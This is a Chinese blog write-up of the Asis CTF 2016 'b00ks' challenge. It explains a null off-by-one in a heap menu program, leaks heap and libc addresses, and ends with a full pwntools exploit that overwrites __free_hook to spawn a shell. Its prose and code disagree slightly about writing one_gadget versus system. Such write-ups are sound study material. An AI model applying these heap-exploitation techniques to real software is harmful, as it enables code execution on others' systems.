



<!--yml
category: 未分类
date: 2022-04-26 14:47:30
-->

# off by one --- Asis CTF 2016 b00ks题解_coco##的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_38419913/article/details/103124592](https://blog.csdn.net/weixin_38419913/article/details/103124592)

# 确定漏洞点

首先，checksec查看开了哪些保护，其中PIE会使我们的调试难度稍稍增加。
再执行程序之后是一个经典的菜单选择，可以大概判断是与堆的利用有关。

通过用ida反编译之后查看，发现有一个关于读的函数会多读入一个\x00，造成了一个null off by one的漏洞。


# 程序分析

## create 函数

1.  创建了book name的堆
2.  创建了book description的堆
3.  创建了book struct的堆，指向这个堆的指针放在bss段上。book struct的结构为：

```
struct book {
	int index;
	char* book_name
	char* book_description
	int description_size
} 
```

并注意其中的每个字段都占8个字节，虽然int类型本身是四个字节，但是struct结构中为了内存对齐进行了padding

## delete函数

1.  free book name
2.  free book description
3.  free book strcut
4.  将指向book struct的指针清空

## edit函数

根据index选择一个book修改其description内容，大小限制在description size

## print detail函数

遍历index，根据book struct中指针信息，打印出name和description内容。最后打印出author name

## change author name

改变author name，这里有一个null off by one漏洞，输入32个字符会向内存里多写入一个\x00

## 内存布局

bss段上

```
0x55b6a94d8040: 0x6161616161616161      0x6161616161616161 <--author name
0x55b6a94d8050: 0x6161616161616161      0x6161616161616161 <-- author name
0x55b6a94d8060: 0x000055b6aab2f180 <--book struct ptr    0x0000000000000000
0x55b6a94d8070: 0x0000000000000000      0x0000000000000000 
```

heap上

```
book struct
0x55b6aab2f180: 0x0000000000000001 <--index     0x000055b6aab2f020 <--name ptr
0x55b6aab2f190: 0x000055b6aab2f050 <--description ptr     0x0000000000000120 <--description size
0x55b6aab2f1a0: 0x0000000000000000      0x0000000000020e61 <-- top chunk size 
```

# 漏洞利用

## 泄漏堆上的地址

通过对内存的观察我们可以知道，author name和book struct ptrs是紧挨着的。于是很容易能泄漏出一个book struct ptr的地址，也就是堆上的地址。

1.  输入author name为32个字节
2.  再申请一个book，此时内存为

```
0x55b6a94d8040: 0x6161616161616161      0x6161616161616161
0x55b6a94d8050: 0x6161616161616161      0x6161616161616161
0x55b6a94d8060: 0x000055b6aab2f180      0x0000000000000000 
```

由于printf一个字符串是一直到\x00为止，所以打印出name的同时也能泄漏出了堆上的地址

## 利用NULL OFF BY ONE

之前提到修改author name时候有null of by one的漏洞。在这里的话能把指向第一个book的指针0x000055b6aab2f180修改为0x000055b6aab2f100，指向的地址就比原来的低。只要我们第一个book申请的大小正合适，那么修改完成后的指针就能落在book1.description中，而description是我们可以修改的，于是我们就能伪造一个book结构，从而能进行任意写了。

## 泄漏libc基址

可以进行任意写了，那么我们还需要知道一下libc基址。如此一来，我们才可能将system或者one gadget写入malloc_free或者free_hook中。这里采用的方法是用malloc申请一个很大(大于128k)的地址,于是这个地址就被分配在了mmap区域，mmap区域和libc的偏移是固定的，所以我们泄漏mmap的地址，就等于泄漏出了libc的基址。

# exp解释

leak通过在原来的book1的description中伪造了一个新的book1做了两件事情。第一，新的book1的name ptr的值为book2 description的值，即mmap的地址，通过show()函数能泄漏出mmap的地址，从而获得libc基址。第二，由于可以通过新的book1的description指针指向的地址进行任意写，所以这里我们修改了book3的description ptr为free hook地址。
最后对book3修改它的description的内容，实际上也就是修改了free_hook的内容。这里就修改成one_gadget。

另外一个值得注意的点：

```
edit(1, p64(free_hook) + "\x08") 
```

由于edit也调用了null off by one的读入函数，如果后面不加\x00的话，那么book3的size字段就变成了0，之后的读入就是读入0字节。

完整的exp如下：

```
 from pwn import *

DEBUG = 1

io = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

if DEBUG == 1:
    context.terminal = ["/usr/bin/tmux", "splitw", "-h", "-p", "70"]
    context.log_level = "DEBUG"

def create(name, description):
    io.recvuntil("> ")
    io.sendline("1")
    io.recvuntil(": ")
    io.sendline(str(len(name)))
    io.recvuntil(": ")
    io.sendline(name)
    io.recvuntil(": ")
    io.sendline(str(len(description)))
    io.recvuntil(": ")
    io.sendline(description)

def delete(index):
    io.recvuntil("> ")
    io.sendline("2")
    io.recvuntil(": ")
    io.sendline(str(index))

def edit(index, description):
    io.recvuntil("> ")
    io.sendline("3")
    io.recvuntil(": ")
    io.sendline(str(index))
    io.recvuntil(": ")
    io.sendline(description)

def change_name(name):
    io.recvuntil("> ")
    io.sendline("5")
    io.recvuntil(": ")
    io.sendline(name)

def show():
    io.recvuntil("> ")
    io.sendline("4")

def leak(addr1, addr2):

    payload = "c"*0xb0 + p64(0x1) + p64(addr1) + p64(addr2) + p64(0x120)
    edit(1, payload)
    change_name("b"*32) 
    show()
    io.recvuntil("Name: ")
    addr = u64(io.recv(6).ljust(8, "\x00"))
    return addr

gdb.attach(io)

io.recvuntil("Enter author name:")
io.sendline("a"*32)

create("a"*0x20, "b"*0x120)
show()
io.recvuntil("Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
book1_addr = u64(io.recv(6).ljust(8, "\x00"))
print(hex(book1_addr))

create("a"*0x20, "b"*0x21000)
create("/bin/sh\x00\x00\x00\x00\x00\x00\x00\x00\x00", "b"*0x8)

libc_addr = leak(book1_addr+0x70, book1_addr+0xe0) - 0x5bc010
print("libc address: " + hex(libc_addr))

system_addr = libc_addr + libc.symbols["system"]
free_hook = libc_addr + libc.symbols["__free_hook"]

print("system address: " + hex(system_addr))
print("free hook address: " + hex(free_hook))

edit(1, p64(free_hook) + "\x08")

one_gadget = libc_addr + 0x45216

edit(3, p64(system_addr))

delete(3)

io.interactive() 
```